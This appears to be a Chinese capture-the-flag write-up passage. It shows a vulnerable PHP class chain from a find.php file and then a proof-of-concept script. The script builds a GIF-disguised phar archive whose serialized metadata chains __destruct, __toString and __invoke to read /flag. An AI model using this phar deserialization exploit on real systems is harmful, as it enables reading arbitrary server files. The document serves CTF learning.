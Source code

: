 我们在find.php发现以下PHP代码

```
class View {
    public $fn;
    public function __invoke(){
        $text = base64_encode(file_get_contents($this->fn));
        echo "<script>alert('".$text."');self.location=document.referrer;</script>";
    }
}
class Fun{
    public $fun = ":)";
    public function __toString(){
        $fuc = $this->fun;
        $fuc();
        return "<script>alert('Be a happy string~');self.location=document.referrer;</script>";
    }
    public function __destruct()
    {
        echo "<script>alert('Just a fun ".$this->fun."');self.location=document.referrer;</script>";
    }
}
$filename = $_POST["file"];
$stat = @stat($filename);-->
```

有文件上传,又有读取文件,那么应该就是phar反序列化了,

先上poc:

```
<?php

class Fun{
    public $fun ;

}
class View {
  public $fn='/flag';
  
}

$d=new Fun();//实例化对象
$v = new View();//实例化对象
$d->fun = $v;//第一层嵌套，为了触发invoke而准备的
$new = new Fun();//再实例化一个对象
$new->fun = $d;//为触发tostring而准备的

$phar = new Phar("test.phar"); //文件名，后缀名必须为phar
$phar->startBuffering();
$phar->setStub('GIF89a'.' __HALT_COMPILER();'); //设置stub
$phar->setMetadata($new); //将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
$phar->stopBuffering();    //签名自动计算
```
